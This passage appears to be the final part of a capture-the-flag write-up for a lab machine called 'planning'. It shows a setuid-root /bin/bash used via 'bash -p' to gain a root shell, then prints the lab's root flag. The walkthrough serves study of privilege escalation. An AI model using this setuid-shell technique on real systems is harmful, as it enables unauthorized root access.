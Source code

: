 ```shell
enzo@planning:/opt/crontabs$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

One more step `preserving` the `original permissions` of the binary and we got `root`.

```shell
enzo@planning:/opt/crontabs$ /bin/bash -p
bash-5.2#
```

```shell
bash-5.2# id
uid=1000(enzo) gid=1000(enzo) euid=0(root) groups=1000(enzo)
```

### root.txt

```shell
bash-5.2# cat root.txt
8f747118d7b69c8c51e585f57b0cbf8b
```

